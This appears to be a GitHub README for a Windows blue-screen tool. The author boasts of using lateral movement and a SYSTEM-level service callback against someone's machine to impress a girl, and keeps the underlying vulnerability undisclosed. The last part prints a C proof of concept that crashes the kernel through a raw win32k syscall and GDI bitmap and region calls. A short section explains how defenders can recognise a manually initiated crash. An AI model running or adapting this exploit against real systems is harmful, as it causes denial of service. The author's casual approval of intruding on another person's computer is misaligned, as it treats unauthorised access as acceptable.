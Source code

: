 # BSOD
This application creates a BSOD on Windows systems

# Motivation
![212284100-561aa473-3905-4a80-b561-0d28506553ee](https://github.com/michredteam/BSOD/assets/168865716/69d95bab-def5-47ea-b2ac-1b9183711980)

The reason behind it was a ridiculously romantic act, using techniques like a lateral movementand, pivoting, leveraging NT AUTHORITY\SYSTEM as a callback to end up next to the girl I liked. This was dubbed as a custom Windows service, making its detection quite tricky. I didn't really disclose how it was called by NT AUTHORITY\SYSTEM because, as far as I checked, this vulnerability still persists. The program was developed in April 2023, with build 19045.2913. I'm not sure if it would be fixed in Windows 11, but it has been around since Windows 7. It's better not to expose this vulnerability until I'm sure it doesn't exist anymore. So, if anyone has an idea, they could tweak the code and turn it into a shellcode with AIDA. I hadn't even thought of taking things to that level, as it was just a proof of concept to impress a girl.

# TeamBlue

Now, correcting my bad habits, this is for TeamBlue. If you want to know if this is an error or if someone caused it, it would be more straightforward to put it like this.

![image](https://github.com/michredteam/BSOD/assets/168865716/5e65914d-e78c-49c5-8e50-c9088de184f3)

While the MANUALLY_INITIATED_CRASH1 bug check has a value of 0xDEADDEAD, indicating a manually initiated crash, this value can be easily manipulated to generate other errors.

# Alternative
![214375888-0dc62524-fb43-43fd-9479-098b471d1b9c](https://github.com/michredteam/BSOD/assets/168865716/3f5a65f5-aa13-46d3-8574-012073be6a4b)

I just imagined this, but in reality, there are more ways to do it.


```c_cpp
#include <Windows.h>
#pragma comment(lib, "gdi32.lib")
#pragma comment(lib, "user32.lib")
unsigned int demo_CreateBitmapIndirect(void) {
	static BITMAP bitmap = { 0, 8, 8, 2, 1, 1 };
	static BYTE bits[8][2] = { 0xFF, 0, 0x0C, 0, 0x0C, 0, 0x0C, 0,
		0xFF, 0, 0xC0, 0, 0xC0, 0, 0xC0, 0 };
	bitmap.bmBits = bits;

	SetLastError(NO_ERROR);
	HBITMAP hBitmap = CreateBitmapIndirect(&bitmap);
	return (unsigned int)hBitmap;
}

#define eSyscall_NtGdiSetBitmapAttributes 0x1110
W32KAPI HBITMAP NTAPI NtGdiSetBitmapAttributes(
	HBITMAP argv0,
	DWORD argv1
	)
{
	__asm
	{
		push argv1;
		push argv0;
		push 0x00;
		mov eax, eSyscall_NtGdiSetBitmapAttributes;
		mov edx, addr_kifastsystemcall;
		call edx;
		add esp, 0x0c;
	}
}
void Trigger_BSoDPoc() {
	HBITMAP hBitmap1 = (HBITMAP)demo_CreateBitmapIndirect();
	HBITMAP hBitmap2 = (HBITMAP)NtGdiSetBitmapAttributes((HBITMAP)hBitmap1, (DWORD)0x8f9);
	RECT rect = { 0 };
	rect.left = 0x368c;
	rect.top = 0x400000;
	HRGN hRgn = (HRGN)CreateRectRgnIndirect(&rect);
	HDC hdc = (HDC)CreateCompatibleDC((HDC)0x0);
	SelectObject((HDC)hdc, (HGDIOBJ)hBitmap2);
	HBRUSH hBrush = (HBRUSH)CreateSolidBrush((COLORREF)0x00edfc13);
	FillRgn((HDC)hdc, (HRGN)hRgn, (HBRUSH)hBrush);
}

int _tmain(int argc, _TCHAR* argv[])
{
	Trigger_BSoDPoc();
	return 0;
}

```

